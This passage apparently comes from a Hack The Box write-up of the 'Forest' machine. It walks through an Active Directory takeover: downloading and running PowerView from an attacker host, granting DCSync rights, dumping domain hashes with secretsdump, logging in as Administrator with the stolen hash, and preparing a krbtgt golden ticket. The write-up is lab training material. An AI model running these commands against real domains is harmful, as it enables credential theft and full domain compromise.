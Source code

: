 We can now download PowerView.ps1 and add the DCSync ACLs:

```bash
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> IEX(New-Object Net.WebClient).downloadString("http://10.10.14.117:8000/PowerView.ps1")
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $password = convertto-securestring "password123!" -asplain -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $creds = New-Object System.Management.Automation.PSCredential("htb\rin", $password)
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> Add-ObjectACL -PrincipalIdentity rin -Credential $cred -Rights DCSync
```

Once that is done, we can use the Impacket tool secretsdump.py to do the AD replication and obtain all of the password hashes:

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Forest]
└──╼ $secretsdump.py htb.local/rin@forest.htb
Impacket v0.9.23.dev1+20201209.133255.ac307704 - Copyright 2020 SecureAuth Corporation
Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
<SNIP>
```

With the hash, we can again use evil-winrm to remote onto the machine as Administrator and use their hash

```bash
┌─[✗]─[rin@parrot]─[~/boxes/Forest]
└──╼ $evil-winrm -u Administrator -H 32693b11e6aa90eb43d32c72a07ceea6 -i forest.htb
Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
htb\administrator
```

Before we leave this box, as part of the DCSync attack, we obtained the golden ticket, namely the hash for the user krbtgt. We can use this to create TGT tickets for any user using the Impacket tools ticketer.py. This tool requires the domain SID which we can get using the Get-ADDomain PowerShell command.

```bash
*Evil-WinRM* PS C:\Users\rin\Documents> Get-ADDomain
AllowedDNSSuffixes : {}
ChildDomains : {}
ComputersContainer : CN=Computers,DC=htb,DC=local
DeletedObjectsContainer : CN=Deleted Objects,DC=htb,DC=local
DistinguishedName : DC=htb,DC=local
DNSRoot : htb.local
DomainControllersContainer : OU=Domain Controllers,DC=htb,DC=local
DomainMode : Windows2016Domain
DomainSID : S-1-5-21-3072663084-364016917-1341370565
ForeignSecurityPrincipalsContainer : CN=ForeignSecurityPrincipals,DC=htb,DC=local
Forest : htb.local
InfrastructureMaster : FOREST.htb.local
LastLogonReplicationInterval :
LinkedGroupPolicyObjects : {CN={31B2F340-016D-11D2-945F-00C04FB984F9},CN=Policies,CN=System,DC=htb,DC=local}
LostAndFoundContainer : CN=LostAndFound,DC=htb,DC=local
ManagedBy :
Name : htb
NetBIOSName : HTB
```